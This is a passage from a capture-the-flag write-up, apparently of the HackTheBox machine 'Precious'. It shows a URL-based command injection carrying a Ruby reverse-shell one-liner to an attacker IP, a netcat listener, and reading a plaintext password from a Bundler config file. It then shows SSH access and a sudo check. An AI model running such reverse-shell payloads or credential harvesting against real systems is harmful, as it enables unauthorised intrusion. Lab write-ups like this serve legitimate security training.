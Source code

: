 ```bash
<http://%20`ruby -rsocket -e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("10.10.14.18",4444))'`
```

set netcat listener:

```bash
nc -lnvp 4444
```

and there is a shell:

![image](https://cdn-images-1.medium.com/max/1000/1*qSNy4j9xm5WaSoRq5PjuYg.png)

Stabilize it with:

```bash
/bin/bash -i
```

while enumaration I found /home/ruby/.bundle/config which includes username and password:

```bash
ruby@precious:~$ cd .bundle
cd .bundle
ruby@precious:~/.bundle$ ls
ls
config
ruby@precious:~/.bundle$ cd config
cd config
bash: cd: config: Not a directory
ruby@precious:~/.bundle$ cat config
cat config
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:******************"

```
Remember there is ssh service open so try to connect the user henry.

```bash
ssh henry@precious.htb
```
enter the password

and we are in as henry.

![image](https://cdn-images-1.medium.com/max/1000/1*MtOF9RFZTXrJ3GWunIchoA.png)

check which files henry can run as root with:

```bash
sudo -l

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

After cat the file I saw it needs dependencies to be executed.

